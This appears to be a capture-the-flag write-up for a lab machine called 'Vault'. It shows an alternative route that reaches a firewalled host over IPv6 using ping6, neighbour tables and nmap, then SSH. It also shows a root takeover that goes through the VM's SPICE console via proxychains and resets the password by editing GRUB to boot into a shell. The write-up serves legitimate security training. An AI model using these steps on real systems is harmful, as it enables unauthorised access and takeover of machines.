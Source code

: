 # Alternative way to exploit Vault

## Getting to 192.168.5.2 with IPv6

Instead of using the SSH service on port 987 with the source port 53 to get access to 192.168.5.2, it is possible to use **IPv6** as the firewall has no rules for that.

Pinging IPv6 Multicast Address:
```markdown
ping6 -I ens3 ff02::1
```

IPv6 neighbors:
```markdown
ip -6 neigh
```
```markdown
fe80::5054:ff:fe3a:3bd5 dev ens3 lladdr 52:54:00:3a:3b:d5 STALE
fe80::5054:ff:fee1:7441 dev ens3 lladdr 52:54:00:e1:74:41 STALE
fe80::5054:ff:fec6:7066 dev ens3 lladdr 52:54:00:c6:70:66 STALE
```

Comparing with the **ARP** neighbors:
```markdown
Address                  HWtype  HWaddress           Flags Mask            Iface
192.168.122.5            ether   52:54:00:3a:3b:d5   C                     ens3
192.168.122.1            ether   fe:54:00:17:ab:49   C                     ens3
```

The first IPv6 has the MAC address of 192.168.122.5 and we don't know the other ones yet.

Scanning the unknown IPv6 addresses with **Nmap**:
```markdown
nmap -6 fe80::5054:ff:fee1:7441%ens3
```
```markdown
All 1000 scanned ports on fe80::5054:ff:fee1:7441 are closed
MAC Address: 52:54:00:E1:74:41 (QEMU virtual NIC)
```

```markdown
nmap -6 fe80::5054:ff:fec6:7066%ens3
```
```markdown
PORT    STATE SERVICE
987/tcp open  unknown
MAC Address: 52:54:00:C6:70:66 (QEMU virtual NIC)
```

So _fe80::5054:ff:fec6:7066_ has port 987 open and thus is _"The Vault"_ SSH service which can be accessed with the earlier found password for _dave_:
```markdown
ssh -p987 dave@fe80::5054:ff:fec6:7066%ens3
```

## Privilege Escalation

There is another way to escalate privileges to _root_.
When enumerating the listening ports on the initial client _10.10.10.109_ with `netstat -alnp`, it shows that port 5900, 5901 and 5902 are listening:
```markdown
Proto   Local Address       Foreign Address     State
tcp     127.0.0.1:5902      0.0.0.0:*           LISTEN
tcp     127.0.0.1:5900      0.0.0.0:*           LISTEN
tcp     127.0.0.1:5901      0.0.0.0:*           LISTEN
```

Searching the processes for these ports:
```markdown
ps ef | grep 5902
```

Only port 5902 shows the result, that _libvirt+_ is using this port as the **spice** service:
```markdown
libvirt+ - qemu-system-x86_64 - -spice port=5902,addr=127.0.0.1
```

The service [Spice](https://www.spice-space.org/spice-user-manual.html) is a solution to gain access to the remote display and devices of virtual clients like **VNC**.

As this box has no real display, the connection to **spice** has to get through our local box with **proxychains** configured accordingly:
```markdown
proxychains remote-viewer spice://127.0.0.1:5900

proxychains remote-viewer spice://127.0.0.1:5901

proxychains remote-viewer spice://127.0.0.1:5902
```

> NOTE: `remote-viewer` can be installed with `apt install virt-viewer`

- Port 5900 is calling itself _"Firewall"_
- Port 5901 is calling itself _"vault"_

The next steps are rebooting the box and changing the password of root by modifying the **GRUB** configuration. This is normal procedure when the [root password is forgotten](https://itsfoss.com/how-to-hack-ubuntu-password/).

Rebooting the _vault_:
```markdown
Send Keys --> Ctrl+Alt+Del
```

Before it boots, by pressing _"e"_ the **GRUB** configuration has to be modified:
```markdown
(...) rw init=/bin/sh (...)

Ctrl+x
```

Changing the password:
```markdown
passwd
```

Rebooting again:
```markdown
Send Keys --> Ctrl+Alt+Del
```

After the reboot, the root password is what we changed it to.
